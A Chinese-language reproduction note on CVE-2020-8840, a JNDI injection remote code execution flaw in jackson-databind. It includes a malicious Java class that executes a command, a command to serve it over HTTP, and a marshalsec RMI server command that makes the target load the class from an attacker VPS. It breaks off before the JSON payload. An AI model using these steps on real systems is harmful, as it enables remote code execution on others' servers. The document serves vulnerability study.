

#  CVE-2020-8840

## 概述 

jackson-databind 是隶属 FasterXML 项目组下的JSON处理库。

受影响版本的jackson-databind中由于缺少某些xbean-reflect/JNDI黑名单类，如org.apache.xbean.propertyeditor.JndiConverter，可导致攻击者使用JNDI注入的方式实现远程代码执行。

## 影响版本

2.0.0 <= FasterXML jackson-databind Version <= 2.9.10.2

使用ldap和rmi配合JNDI注入对对jdk版本有一定的要求。

## 复现

与之前fastjson类似。

**漏洞利用链**：

**靶机-> RMI/LDAP 服务器 -> 恶意类HTTP服务器**

 

#### 流量行为：

1.攻击者向靶机发送精心构造的poc

2.靶机接收到poc，假设靶机存在漏洞(未对class黑名单校验的靶机)，会向攻击者搭建的恶意RMI/LDAP服务器发送请求

3.调用远程恶意HTTP服务器上编译的恶意类资源，在靶机上执行任意命令(可能是在内存加载，未落地)

 

在vps上，将编译好的恶意类TouchFile.class放在任意目录。 **根据靶机环境调整恶意类内容**

恶意类：

	import java.lang.Runtime;
	import java.lang.Process;
	
	public class TouchFile {
	    static {
	        try {
	            String[] commands={"calc.exe"};
	            Runtime.getRuntime().exec(commands);
	            
	        } catch (Exception e) {
	            // do nothing
	        }
	    }
	}

**恶意类最好用低版本jdk编译，据说1.6效果最佳,我用1.8编译的恶意类未加载成功，用1.7成功了,也可能跟我靶机java环境有关，我靶机的环境是jdk1.6**

在当前目录启动一个HTTP服务承载 恶意类，使恶意类可以被RMI/LDAP服务器访问。

	python -m SimpleHTTPServer 8000

启动 RMI 服务器

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS:8000/#TouchFile 1099

向靶机发送 json 调用 恶意RMI

